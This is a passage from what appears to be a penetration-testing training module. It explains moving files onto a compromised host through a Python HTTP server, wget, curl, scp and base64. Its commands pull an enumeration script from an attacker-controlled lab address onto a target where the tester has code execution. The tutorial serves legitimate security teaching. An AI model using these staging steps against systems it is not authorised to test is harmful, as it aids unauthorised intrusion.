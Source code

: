 There are many methods to accomplish this. One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:

Transferring Files

```shell
6165@htb[/htb]$ cd /tmp 6165@htb[/htb]$ python3 -m http.server 8000 Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:

Transferring Files

```shell
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh ...SNIP... Saving to: 'linenum.sh' linenum.sh 100%[==============================================>] 144.86K --.-KB/s in 0.02s 2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Note that we used our IP `10.10.14.1` and the port our Python server runs on `8000`. If the remote server does not have `wget`, we can use `cURL` to download the file:

Transferring Files

```shell
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh 100 144k 100 144k 0 0 176k 0 --:--:-- --:--:-- --:--:-- 176k
```

Note that we used the `-o` flag to specify the output file name.

___

## Using SCP

Another method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

Transferring Files

```shell
6165@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh user@remotehost's password: ********* linenum.sh
```

Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`.

___

## Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:
